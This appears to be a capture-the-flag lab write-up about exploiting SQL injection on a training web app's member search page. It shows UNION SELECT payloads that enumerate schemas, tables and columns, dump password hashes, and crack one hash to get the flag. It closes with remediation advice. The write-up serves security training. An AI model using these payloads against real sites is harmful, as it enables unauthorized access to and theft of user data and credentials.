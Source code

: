 # Users Page

__http://192.168.99.101/?page=member&id=1&Submit=Submit__

## Description
This page allow to find the members of the service.
## Form Outputs
The [page](#http://192.168.99.101/?page=member&id=42%20union%20select%20database(),%20schema_name%20from%20information_schema.schemata&Submit=Submit) return the list of members

```
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_survey
```

The [page](#http://192.168.99.101/?page=member&id=42%20union%20select%20table_name,%20create_time%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit) return the list of the tables

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database() 
First name: users
Surname : 2021-06-29 20:14:31
```

Let's check the column names [here](#http://192.168.99.101/?page=member&id=42%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: countersign
Surname : varchar(255)
```
We've got the following columns ```user_id first_name last_name town country planet Commentaire countersign```

Then we get the personal data </br>
[select Commentaire, countersign from users](#http://192.168.99.101/?page=member&id=42%20union%20select%20Commentaire,%20countersign%20from%20users&Submit=Submit)
```
ID: 42 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Flag
The flag we've got is [FortyTwo](#https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)
After converting FortyTwo to [sha256](#https://crypt-online.ru/crypts/sha256/) as in the instruction we get a flag.

## Safety
The IT safety of the web in this case is compromised due to several security vulnerabilities, mainly SQL injection. 
The risk that the web is bringing includes unauthorized access to sensitive information such as member data and user credentials. The SQL injections allow an attacker to execute arbitrary queries on the database, which enables them to retrieve the list of members, tables, column names, and even personal data like comments and passwords.
These vulnerabilities can lead to potential data breaches, privacy violations, and unauthorized access to user accounts. It is crucial for the website administrators to address these security issues by implementing proper input validation and parameterized queries to prevent SQL injection attacks.
Additionally, storing passwords in plaintext or using weak encryption algorithms like SHA256/MD5 can also put user accounts at risk. It is essential to use strong and properly implemented hashing algorithms like bcrypt to securely store passwords.
Overall, the web's security is at high risk due to the presence of SQL injection vulnerabilities and weak password storage practices, which can lead to unauthorized access and potential harm to users' privacy and security.